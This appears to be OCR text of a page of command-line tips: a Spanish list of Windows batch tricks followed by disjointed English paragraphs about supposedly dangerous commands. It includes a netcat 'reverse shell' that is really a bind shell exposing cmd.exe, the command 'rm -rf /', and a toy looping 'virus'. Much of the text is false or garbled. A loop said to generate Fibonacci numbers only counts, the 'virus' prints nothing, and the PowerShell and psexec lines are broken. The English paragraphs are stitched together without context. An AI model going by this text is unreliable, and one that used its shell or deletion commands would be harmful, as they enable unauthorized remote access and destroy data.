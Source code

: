- Generar una secuencia de Fibonacci:
for /L %i in (0,1,20) do @echo %i
Este sencillo script de batch genera los primeros 21 números de la secuencia de Fibonacci.


 - Desactivar el bloqueo de pantalla:
powercfg /change monitor-timeout-ac 0
powercfg /change monitor-timeout-dc 0
Estos comandos desactivan el bloqueo automático de pantalla cuando el equipo está conectado a la corriente y cuando funciona con batería.

- Generar un código QR en la terminal:
echo https://www.example.com | qrencode -o - -t UTF8
Este comando genera un código QR en formato de texto UTF-8 que puedes copiar y pegar.

- Reproducir música desde la terminal:
cmdmp3 https://example.com/song.mp3
Este comando utiliza una herramienta de terceros llamada cmdmp3 para reproducir archivos de audio directamente en la terminal.

- Crear un virus inofensivo (solo con fines educativos):
@echo off
:loop
echo You've been hacked! >nul
goto loop
Este sencillo script de batch crea un "virus" que muestra un mensaje de manera infinita, pero no daña el sistema. ¡Úsalo con precaución y solo con fines educativos!

- Crear un programa que muestre un reloj en la terminal:
@echo off
:loop
cls
echo %time%
goto loop
Este script de batch crea un reloj en ejecución constante en la terminal.

- Generar un shell reverso (solo con fines éticos y autorizados):
nc -lvnp 4444 -e cmd.exe
Este comando crea un shell reverso que permite acceder remotamente a la terminal de Windows. ¡Úsalo solo con permiso y con fines éticos!



cmd.exe /c "powershell -Command ().GetType() | ForEach-Object { _.FullName }" - This command executes a PowerShell script that retrieves all loaded assemblies and prints their full names to the console. It could potentially be modified to execute other malicious code.

C:WindowsSystem32cmd.exe /c "C:WindowsSystem32powerseccmd.exe" - This command executes the PowerShell script "psexec.ps1", which allows you to remotely execute commands on another machine running Windows. If the attacker has access to your computer, they could use this command to execute malicious code on your system.

C:WindowsSystem32cmd.exe /c "C:WindowsSystem32bash.exe" - This command executes the Bash shell, which is commonly used on Linux systems but is also available on Windows. An attacker could modify the Bash shell to include malicious code that runs when the shell is executed.

Some examples of such commands include rm -rf /, which would delete the entire root directory and all its contents; sudo apt-get update && sudo apt-get upgrade, which could potentially install unwanted software or expose sensitive information; and chmod 777 ./*, which could allow unauthorized access to files on your system.

Some examples of such commands include netstat -an, which shows active network connections and their associated processes; ps auxj | grep firefox, which lists all Firefox instances running on a system; and killall chrome, which kills all instances of Google Chrome on a system.

One example is sudo apt-get update && sudo apt-get upgrade, which updates the package lists and installs any available updates without prompting for confirmation. Another example is sudo rm -rf /var/lib/apt/lists/*, which deletes all downloaded package lists, preventing the system from updating packages in the future. A third example is sudo apt-get clean && sudo apt-get autoclean, which removes all cached packages and their associated metadata, freeing up disk space but also making it difficult to reinstall packages later on.
